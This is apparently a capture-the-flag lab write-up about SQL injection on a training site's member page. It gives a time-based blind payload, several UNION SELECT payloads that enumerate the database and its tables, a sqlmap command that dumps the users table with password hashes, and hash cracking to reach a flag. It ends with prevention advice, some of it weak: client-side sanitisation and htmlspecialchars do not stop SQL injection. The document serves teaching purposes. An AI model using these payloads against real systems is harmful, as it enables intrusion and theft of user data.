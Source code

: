 [README.md](../../../README.md)
# SQL Injection Member page
Page: http://10.13.200.53/?page=member

WAPITI SCAN reveal this error:
```
Vulnerability found in /index.php
Description HTTP Request cURL command line
Blind SQL vulnerability via injection in the parameter id
GET /index.php?page=member&id=sleep%287%29%231&Submit=Submit HTTP/1.1
Host: 10.13.200.53
Referer: http://10.13.200.53/index.php?page=member
curl "http://10.13.200.53/index.php?page=member&id=sleep%287%29%231&Submit=Submit" -e "http://10.13.200.53/index.php?page=member"
```
Cybersecurity piscine script also

## SQL
Basic SQL injection test:

`1 == 1`

**Result**: `You have an error sin your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '= 1' at line 1`

`1 UNION SELECT 1,2`
**Result**: 
```
ID: 1 UNION SELECT 1,2 
First name: one
Surname : me
ID: 1 UNION SELECT 1,2 
First name: 1
Surname : 2
```

**Database name:**
```
ID: 0 UNION SELECT 1,database()
First name: 1
Surname : Member_Sql_Injection
```

**Database version:**
```
ID: 1 UNION SELECT 1,@@version 
First name: 1
Surname : 5.5.64-MariaDB-1ubuntu0.14.04.1
```

**Table name:**
`0 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES `

RESULTS:
 - CHARACTER_SETS
...
 - db_default
 - users
 - guestbook
 - list_images
 - vote_dbs

 **Column names:**
 - CHARACTER_SET_NAME
...
 - username
 - password
 - user_id
 - first_name
 - last_name
 - town
 - country
 - planet
 - Commentaire
 - countersign
 - id_comment
 - url
 - title
 - id_vote
 - vote
 - nb_vote
 - subject

**We can use the concat() method to see extra fields:**
`0 UNION select 1,concat(town) from users`

For the user with the id 5: 
    last_name = "GetThe", 
    first_name = 'falg' ,
    town = '42', 
    country = '42', 
    planet = '42', 
    Commentaire= "Decrypt this password -> then lower all the char. Sh256 on it and it's good!",
    countersign = '5ff9d0165b4f92b14994e5c685cdce28'


using this website: [Hash Function (+Salt) Decrypter - Unhash Password - Online Decoder](https://www.dcode.fr/hash-function)
The decrypted hash md5 give: *FortyTwo*

If we encrypt `fortytwo` with SHA256 we have: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

### Sqlmap tool
`sqlmap -u "http://x.x.x.x/?page=member&id=1&Submit=Submit#" --dump -T users`

```
Database: Member_Sql_Injection
Table: users
[4 entries]
+-------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| user_id | town     | planet | country  | last_name | first_name | Commentaire                               | countersign                      |
+-------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
| 1       | Paris    | EARTH  | France   | me        | one        | Je pense, donc je suis                               | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Helsinki | Earth  | Finlande | me        | two        | Aamu on iltaa viisaampi.                               | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Dublin   | Earth  | Irlande  | me        | three      | Dublin is a city of stories and ecrets.                                      | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42       | 42     | 42       | GetThe    | Flag       | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+-------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+
```

## Prevention 
-> [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
### Client Side (JQUERY)
- Input sanitization, before sending any data to the server
- Use input masks to restrict user input to specific formats.

### Server side (PHP)
- Use ORM
- Input validation and sanitization with php functions like:
    - `filter_var()`
    - `htmlspecialchars()`

---

Do *not* concatenate strings into queries in the stored procedure, or use 'exec', 'exec immediate', or equivalent functionality!

Do not create dynamic SQL queries using simple string concatenation.

Escape all data received from the client.

Apply an 'allow list' of allowed characters, or a 'deny list' of disallowed characters in user input.

Apply the principle of least privilege by using the least privileged database user possible.

In particular, avoid using the 'sa' or 'db-owner' database users. This does not eliminate SQL injection, but minimizes its impact.

Grant the minimum database access that is necessary for the application.